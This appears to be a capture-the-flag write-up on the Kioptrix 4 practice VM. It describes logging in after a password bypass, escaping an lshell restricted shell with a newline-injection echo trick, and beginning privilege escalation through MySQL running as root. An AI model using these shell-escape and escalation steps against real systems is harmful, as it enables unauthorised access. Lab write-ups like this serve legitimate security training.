 Bypassing entering the password give us a members page which displays the users password, we can now ssh into the box and go from there. Note that although roberts password looks like its base64 encoded its not.

## Remote access
We can now login with two user accounts, upon login in we get the message:
{% highlight python %}
>Welcome to LigGoat Security Systems - We are Watching
== Welcome LigGoat Employee ==
LigGoat Shell is in place so you  don't screw up
Type '?' or 'help' to get the list of allowed commands
john:~$ ?
cd  clear  echo  exit  help  ll  lpath  ls
{% endhighlight %}
This looks like we have restricted commands and we will need to escalate privileges using these. When trying to list outside of /home/user we get a warning message, this also happens when trying other special characters such as `>|/`.
{% highlight python %}
>ls /
*** forbidden path -> "/"
*** You have 0 warning(s) left, before getting kicked out.
This incident has been reported.
{% endhighlight %}
Typing help help:
{% highlight python %}
>Limited Shell (lshell) limited help.
Cheers.
{% endhighlight %}
Typing sudo causes a python runtime error:
{% highlight python %}
>File "/usr/lib/python2.5/site-packages/lshell.py", line 247, in check_secure
    if cmdargs[1] not in self.conf['sudo_commands'] and cmdargs:
TypeError: 'NoneType' object is unsubscriptable
{% endhighlight %}
From a quick search online we find that lshell has a few vulnerabilities what allow us to escape it. One method involves pressing special characters then typing a command to run. [lshell github issue](https://github.com/ghantoos/lshell/issues/149)
{% highlight python %}
echo <ctrl+v><ctrl+j>bash

robert:~$ echo ^Jbash

robert@Kioptrix4:~$ id
uid=1002(robert) gid=1002(robert) groups=1002(robert)
robert@Kioptrix4:~$ uname -a
Linux Kioptrix4 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686 GNU/Linux
robert@Kioptrix4:~$ 
{% endhighlight %}
Now we have escaped the limited shell we need to escalate our privileges further.

## Privilege escalation
Now we need to find some way of getting root or escalating our user privileges to run root commands. We can do this by enumerating the linux system further from our user access. We know from information gathering that the server is running a web server and a database, we can now check what other processes are running and what privilege level they have.
{% highlight python %}
ps -aux
{% endhighlight %}
Listing the processes we can see apache is running as www-data user and mysql is running as root. With mysql running as root we could try and get it to execute commands as root, but first we need a login.
